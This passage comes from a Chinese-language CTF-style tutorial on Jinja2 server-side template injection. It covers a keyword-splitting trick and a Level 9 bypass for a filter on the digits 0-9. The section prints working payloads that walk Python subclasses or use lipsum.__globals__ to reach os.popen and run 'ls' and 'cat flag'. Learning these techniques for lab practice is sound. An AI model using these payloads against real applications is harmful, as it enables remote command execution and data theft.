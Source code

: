 *将关键字拆分并用 `+` 连接，使得过滤器无法匹配完整的关键字字符串。
![过滤关键字 1](./images/ssti12.png)

-----

## Level 9 - 过滤数字 `0-9` (['0-9'])

如果过滤了所有数字 `0` 到 `9`，无法直接使用索引。可以采用以下方法：

1.  **使用模板循环语法:** 遍历 `__subclasses__()`，通过 `if` 判断类名或属性是否存在，避免使用索引。

    ```jinja
    {# 使用 eval #}
    {% for x in ().__class__.__base__.__subclasses__() %}
    {% if x.__init__ is defined and x.__init__.__globals__ is defined and 'eval' in x.__init__.__globals__.__getitem__('__builtins__').__getitem__('eval').__name__ %}
    {{ x.__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls").read()') }}
    {% endif %}
    {% endfor %}

    {# 使用 Popen，配合 |last 替代 [-1] #}
    {% for i in (''.__class__.__mro__|last()).__subclasses__() %}
    {% if i.__name__=='Popen' %}
    {{ i.__init__.__globals__.__getitem__('os').popen('cat flag').read() }}
    {% endif %}
    {% endfor %}
    ```

2.  **利用 `lipsum` 等不需要索引的对象:** `lipsum` 全局变量可以直接访问其 `__globals__`。

    ```jinja
    {{ lipsum | attr("__globals__") | attr("__getitem__")("os") | attr("popen")("cat flag") | attr("read")() }}
    ```
